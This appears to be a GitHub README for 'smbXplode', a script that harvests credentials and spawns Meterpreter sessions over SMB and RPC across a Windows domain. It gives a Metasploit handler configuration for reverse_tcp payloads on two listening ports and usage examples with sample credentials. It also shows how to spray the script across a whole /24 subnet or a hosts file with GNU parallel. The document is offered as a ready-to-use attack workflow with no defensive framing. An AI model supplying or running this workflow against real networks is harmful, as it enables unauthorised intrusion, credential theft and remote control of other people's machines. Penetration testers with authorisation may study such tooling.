 # smbXplode

This script is used to automate the process of harvesting credentials and getting meterpreter sessions throught the smb and rpc in a windows domain.
For this to work you would need to have some kind of admin credentials to start with. or you could have some low previledge creds that you want to try them agains the whole range and try to escalate your priviledge later on. 

You can always re-adapt msfcommands.rc to automate the metasploit commands that you wanna run once you have a session. 

Also notice that due to the use of net rpc, you need to migrate first thing after a session otherwise the session would die. Unless you want to use the winexe command (which you can find commented in the script).

### Usage 
Before running this script, simply make sure that you have two payload files (32 & 64 bit). Make sure to update the name of the files accordingly in the script. 


#### Metasploit Handler
Make sure to have your Metasploit handler listening for both payloads ( you can listen two different ports for 32, and 64 ).
Also, make sure you select the correct payload for the handler, I will demonstrate the reverce_tcp (32 and 64) 

example :

```
use exploit/multi/handler
set autorunscript multi_console_command -rc /path/to/msfcommands.rc
set ExitOnSession false
set payload windows/x64/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport 1111
run -j -z
set payload windows/meterpreter/reverse_tcp
set lport 2222
run -j -z
```

Now make sure that your connect back payloads are configured to match those ports and payload type. 

#### Single Host
To run the script simply use the following syntax
```
./smbXplode.sh domain username password hostIP
```

example : 
```
./smbXplode.sh domain tito Password2015 10.10.10.10
```

#### Multiple Hosts
So far it's not really integrated into the script, as I like to keep it as simple as possible. I rely on GNU parallel to do that. 
Notice that parallel passes the IP as the last parameter already. 

example 
```
running against a /24
for i in {1..254}; do echo 10.10.10.$i; done | parallel -j 5 ./smbXplode.sh domain tito Password2015
```
```
running against host ips file
cat hosts.txt | parallel -j 5 ./smbXplode.sh domain tito Password2015
```

